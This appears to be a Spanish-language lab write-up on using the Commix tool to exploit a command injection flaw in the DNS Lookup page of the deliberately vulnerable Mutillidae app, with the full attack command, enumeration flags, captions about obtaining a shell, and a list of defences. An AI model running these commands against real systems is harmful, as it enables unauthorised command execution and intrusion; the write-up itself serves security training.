










# Mutillidae - Command Injection con Commix

> Laboratorio/documentación realizada en entorno local o controlado con fines educativos. No ejecutar estas técnicas contra sistemas ajenos o sin autorización.


## Objetivo

Documentar el uso de Commix en un laboratorio Mutillidae para detectar y validar una vulnerabilidad de inyección de comandos en la funcionalidad de DNS Lookup.

## Punto vulnerable

```text
http://192.168.1.147/mutillidae/index.php?page=dns-lookup.php
```

## Comando base

```bash
commix -u "http://192.168.1.147/mutillidae/index.php?page=dns-lookup.php" --data="target_host=127.0.0.1&dns-lookup-php-submit-button=Lookup+DNS" --batch
```

## Pruebas realizadas

Algunas opciones útiles para comprobar el impacto de la vulnerabilidad:

```bash
--current-user
--hostname
--is-root
--sys-info
```

## Riesgo

Una inyección de comandos permite ejecutar instrucciones del sistema desde una entrada web mal validada. Dependiendo del usuario del servicio web, puede derivar en acceso al sistema, lectura de ficheros o movimiento posterior.

## Medidas defensivas

- No concatenar entradas del usuario en comandos del sistema.
- Usar APIs seguras en lugar de invocar shell.
- Validar estrictamente formato de host/IP.
- Ejecutar servicios web con usuarios de bajos privilegios.
- Registrar y monitorizar patrones de inyección.

## Evidencias visuales




*Formulario vulnerable de DNS Lookup.*



*Detección inicial con Commix.*



*Enumeración de usuario actual.*



*Obtención de hostname.*



*Comprobación de privilegios.*



*Información del sistema.*



*Prueba adicional de enumeración.*



*Interacción con shell.*



*Resultado de comandos.*



*Resumen de explotación controlada.*

## Resumen

Commix automatiza la detección de command injection, pero el aprendizaje clave está en entender la causa: una aplicación que envía datos no confiables a una shell del sistema.
